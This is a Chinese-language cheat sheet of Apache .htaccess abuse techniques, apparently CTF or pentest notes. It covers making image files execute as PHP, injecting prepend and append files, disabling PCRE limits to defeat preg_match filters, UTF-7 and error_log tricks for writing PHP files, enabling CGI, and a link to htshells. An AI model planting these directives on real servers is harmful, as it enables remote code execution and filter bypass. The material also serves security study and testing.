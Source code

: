 # ``.htaccess``文件利用

### 正确解析绕过
  
  ``.htaccess``中出现的无法正常解析的条目时无法生效
  - ``\``换行绕过脏字符或绕WAF
  - 利用XMP图片解析头(``#``刚好是注释符)
    
    ```
    #define width 1
    #define height 1
    ```
  - 利用wbmp文件解析头
    
    ```
    \x00\x00\x8a\x39\x8a\x39
    ```
### 增加使用php解析 (可以类推)

- 文件后缀(.jpg)
  
    ```
    AddType application/x-httpd-php .jpg
    ```
- 的文件
  
    ```
    <FilesMatch "<filename>">
    SetHandler application/x-httpd-php
    </FilesMatch>
    ```

### **利用php_value注入php配置**

- 在所有php前后注入恶意php文件
  
    ```
    php_value auto_prepend_file "<FileDir>"
    php_value auto_append_file "<FileDir>"
    ```

- 利用prce参数绕过preg_match
  
    ```
    php_value pcre.backtrack_limit 0
    php_value pcre.jit 0 
    ```

    任意匹配均返回``FALSE``
    
    > https://www.php.net/manual/zh/pcre.configuration.php

- 利用UTF-7编码绕过日志html编码
  
   ```
    php_value zend.multibyte 1
    php_value zend.script_encoding "UTF-7"
   ```
- 利用inclue_path包含恶意文件

  ```
    php_value include_path "/tmp"
  ```
- 利用``error log``写本地文件 (html编码)

    ```
    php_value error_log /tmp/fl3g.php
    php_value error_reporting 32767
    ```
- 强制开启短标签
    
    ```
    php_value short_open_tag 1  
    ```

## CGI 相关

官方文档 https://httpd.apache.org/docs/2.4/howto/htaccess.html#cgi

>Finally, you may wish to use a .htaccess file to permit the execution of CGI programs in a particular directory. This may be implemented with the following configuration:
>```
>Options +ExecCGI
>AddHandler cgi-script cgi pl
>```

## htshell

参考链接 https://github.com/wireghoul/htshells/tree/master/info


## 参考资料

https://www.hacking8.com/MiscSecNotes/htaccess.html#title-9